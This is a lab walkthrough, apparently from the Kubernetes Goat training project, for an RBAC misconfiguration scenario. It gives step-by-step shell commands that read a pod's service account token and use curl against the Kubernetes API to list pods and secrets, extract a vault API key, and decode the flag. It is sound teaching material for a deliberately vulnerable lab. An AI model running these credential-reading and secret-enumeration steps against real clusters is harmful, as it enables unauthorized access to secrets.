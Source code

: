# RBAC Least Privileges Misconfiguration

## Scenario Information

We commonly see in real-world where developers and devops teams tend to provide extra privileges than required. This happens attackers gaining more control and privieges than they intended to be. In this scenario you can leverage the serviceaccount binded to the pod to provide `webhookapikey` access, but using this attacker can gain control over other secrets and resources. Gain access to the `vaultapikey` secret flag.

* To get started with the scenario, navigate to [http://127.0.0.1:1236](http://127.0.0.1:1236)

![Scenario 16 Welcome](images/sc-16-1.png)

## Scenario Solution

> This deployment has a custom serviceaccount mapped with overly permissive policy/access. As an attacker we can leverage this to gain access to other resources and services.

* As the Kubernetes stores all the secrets, tokens and service accounts information in the default place, navigate to there to find the useful information

```bash
cd /var/run/secrets/kubernetes.io/serviceaccount/
ls -larth
```

![Scenario 16 checking service account](images/sc-16-2.png)

* Now we can use this information to query and talk to the Kubernetes API service with the available permissions and privileges to the token

* To point to the internal API server hostname

```bash
export APISERVER=https://${KUBERNETES_SERVICE_HOST}
```

* To set the path to ServiceAccount token

```bash
export SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount
```

* To read the pods namespace and set that as a variable. The namespace should be `big-monolith`, if it is `default` you need to update Kubernetes-goat to the lastest version ([more info](https://github.com/madhuakula/kubernetes-goat/commit/d068966ae481df55caed818c7cfc14867c1e42a1))

```bash
export NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace)
```

* To read the ServiceAccount bearer token

```bash
export TOKEN=$(cat ${SERVICEACCOUNT}/token)
````

* To point the CACERT path to use while querying in the CURL requests

```bash
export CACERT=${SERVICEACCOUNT}/ca.crt
```

* Now we can explore the Kubernetes API with the token and the constructed queries

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api
```

![Scenario 16 mapping credentials](images/sc-16-3.png)

* To query the available secrets in defaul namespace

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/secrets
```

![Scenario 16 query secrets in default namespace](images/sc-16-4.png)

* To query the secrets specific to the namespace

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets
```

![Scenario 16 query secrets in specific namespace](images/sc-16-5.png)

* To query the pods in the sepcific namespace

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/pods
```

![Scenario 16 query pods in specific namespace](images/sc-16-6.png)

> From here you can try and leverage all the possible Kubernetes operations. As Kubernetes itself works as API service to create, delete pods, etc.

* Get the `k8svaulapikey`

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets | grep k8svaultapikey 
```

![Scenario 16 get k8svaultapikey](images/sc-16-7.png)

```bash
echo "azhzLWdvYXQtODUwNTc4NDZhODA0NmEyNWIzNWYzOGYzYTI2NDlkY2U=" | base64 -d
```

## Miscellaneous

TBD
